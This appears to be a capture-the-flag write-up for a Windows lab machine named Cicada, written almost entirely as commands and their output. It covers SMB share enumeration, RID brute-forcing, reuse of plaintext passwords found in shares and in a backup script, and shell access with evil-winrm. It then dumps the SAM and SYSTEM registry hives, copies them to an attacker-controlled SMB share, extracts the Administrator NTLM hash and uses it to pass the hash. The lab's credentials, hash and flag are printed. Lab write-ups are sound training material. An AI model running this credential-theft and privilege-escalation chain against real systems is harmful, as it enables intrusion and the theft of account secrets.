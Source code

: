 ```
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
--------------------------------------------------------------------
cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
--------------------------------------------------------------------
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
----------------------------------------------
user.txt: 1d12de2c4162688e2ee9ba080c707d96
-----------------------------------------------------
reg save hklm\system c:\Temp\system


copy C:\Temp\sam \\10.10.16.53\share\sam
copy C:\Temp\system \\10.10.16.53\share\system

evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```


## **Initial Access**
1. **Enumerate SMB Shares**:
   - Used `smbclient` to list accessible shares:
     ```bash
     smbclient -L \\\\10.10.11.35 -U "anonymous"
     ```
   - Found the `HR` share and accessed it:
     ```bash
     smbclient \\\\10.10.11.35\\HR -U "anonymous"
     ```

2. **Found Credentials**:
   - Discovered a file containing credentials:
     ```
     Cicada$M6Corpb*@Lp#nZp!8
     ```

3. **Enumerate Users**:
   - Used `nxc` to enumerate users via RID brute-forcing:
     ```bash
     nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
     ```
   - Identified users like `michael.wrightson`, `david.orelious`, and `emily.oscars`.

4. **Authenticate as `michael.wrightson`**:
   - Used the found credentials to authenticate:
     ```bash
     nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
     ```

5. **Explore SMB Shares**:
   - Found additional shares and accessed the `dev` share:
     ```bash
     smbclient \\\\10.10.11.35\\dev -U 'michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8'
     ```

6. **Found New Credentials**:
   - Discovered credentials for `emily.oscars`:
     ```
     emily.oscars:Q!3@Lp#M6b*7t*Vt
     ```

7. **Authenticate as `emily.oscars`**:
   - Used `evil-winrm` to authenticate:
     ```bash
     evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
     ```


## **Privilege Escalation**
1. **Check Privileges**:
   - Ran `whoami /priv` and found `SeBackupPrivilege` and `SeRestorePrivilege` enabled.

2. **Dump SAM and SYSTEM Hives**:
   - Created a `Temp` folder and dumped the hives:
     ```powershell
     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system
     ```

3. **Transfer Files Using SMB Server**:
   - Set up an SMB server on the attacking machine:
     ```bash
     sudo impacket-smbserver share $(pwd) -smb2support
     ```
   - Copied the files to the SMB share from the target machine:
     ```powershell
     copy C:\Temp\sam \\<Your_IP>\share\sam
     copy C:\Temp\system \\<Your_IP>\share\system
     ```

4. **Extract NTLM Hashes**:
   - Used `pypykatz` to extract the hashes:
     ```bash
     pypykatz registry --sam sam --system system
     ```
   - Found the NTLM hash for the `Administrator`:
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
     ```

5. **Authenticate as `Administrator`**:
   - Used `evil-winrm` with the NTLM hash:
     ```bash
     evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
     ```

6. **Retrieve the Root Flag**:
   - Navigated to the `Administrator` desktop and read the `root.txt` file:
     ```powershell
     cd C:\Users\Administrator\Desktop
     type root.txt
     ```

